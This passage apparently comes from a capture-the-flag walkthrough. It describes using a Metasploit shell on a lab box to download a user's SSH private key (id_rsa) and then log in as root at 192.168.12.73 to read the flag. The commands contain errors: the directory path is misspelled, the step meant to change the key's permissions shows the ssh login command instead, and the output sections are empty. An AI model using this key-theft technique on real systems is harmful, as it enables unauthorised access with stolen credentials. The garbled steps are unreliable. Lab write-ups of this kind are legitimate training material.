


5.4 Connect via SSH (Second flag)
1. On your Metasploit shell go to “/home/primavera/.ssh”.
cd /home/primaver/.ssh
2. Download to your Kali Machine the “id_rsa” file in that directory. (It will be save in the directory from you ran “metasploit”).
download id_rsa id_rsa
3. Change the “id_rsa” permissions.
$ ssh root@192.168.12.73 -i id_rsa
4. From your Kali Machine connect via SSH with that file.
$ ssh root@192.168.12.73 -i id_rsaOutput:

5. Get the flag.
root@bounty:~# cat root.txt
Output:
